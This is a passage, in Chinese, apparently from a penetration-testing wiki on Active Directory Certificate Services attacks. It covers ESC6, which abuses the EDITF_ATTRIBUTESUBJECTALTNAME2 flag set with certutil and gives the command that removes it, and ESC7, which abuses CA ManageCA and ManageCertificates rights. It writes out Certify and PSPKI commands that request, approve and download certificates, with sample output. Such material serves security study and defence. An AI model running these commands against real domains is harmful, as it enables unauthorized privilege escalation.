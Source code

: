 ```bash
```
要更改这些设置，假设拥有**域管理员**权限或同等权限，可以从任何工作站执行以下命令：
```bash
certutil -config "CA_HOST\CA_NAME" -setreg policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2
```
要在您的环境中禁用此配置，可以使用以下命令移除标志：
```bash
certutil -config "CA_HOST\CA_NAME" -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2
```
> [!WARNING]
> 在2022年5月的安全更新之后，新颁发的**证书**将包含一个**安全扩展**，该扩展包含**请求者的`objectSid`属性**。对于ESC1，此SID源自指定的SAN。然而，对于**ESC6**，SID反映的是**请求者的`objectSid`**，而不是SAN。\
> 要利用ESC6，系统必须对ESC10（弱证书映射）敏感，该映射优先考虑**SAN而不是新的安全扩展**。

## 易受攻击的证书颁发机构访问控制 - ESC7

### 攻击 1

#### 解释

证书颁发机构的访问控制通过一组权限来维护，这些权限管理CA的操作。可以通过访问`certsrv.msc`，右键单击CA，选择属性，然后导航到安全选项卡来查看这些权限。此外，可以使用PSPKI模块和以下命令枚举权限：
```bash
Get-CertificationAuthority -ComputerName dc.domain.local | Get-CertificationAuthorityAcl | select -expand Access
```
这提供了主要权限的见解，即 **`ManageCA`** 和 **`ManageCertificates`**，分别对应于“CA管理员”和“证书管理器”的角色。

#### 滥用

在证书授权中心拥有 **`ManageCA`** 权限使得主体能够使用 PSPKI 远程操控设置。这包括切换 **`EDITF_ATTRIBUTESUBJECTALTNAME2`** 标志，以允许在任何模板中指定 SAN，这是域升级的一个关键方面。

通过使用 PSPKI 的 **Enable-PolicyModuleFlag** cmdlet，可以简化此过程，允许在不直接与 GUI 交互的情况下进行修改。

拥有 **`ManageCertificates`** 权限可以批准待处理的请求，有效地绕过“CA 证书管理器批准”保护。

可以结合 **Certify** 和 **PSPKI** 模块来请求、批准和下载证书：
```bash
# Request a certificate that will require an approval
Certify.exe request /ca:dc.domain.local\theshire-DC-CA /template:ApprovalNeeded
[...]
[*] CA Response      : The certificate is still pending.
[*] Request ID       : 336
[...]

# Use PSPKI module to approve the request
Import-Module PSPKI
Get-CertificationAuthority -ComputerName dc.domain.local | Get-PendingRequest -RequestID 336 | Approve-CertificateRequest

# Download the certificate
Certify.exe download /ca:dc.domain.local\theshire-DC-CA /id:336
```
### Attack 2
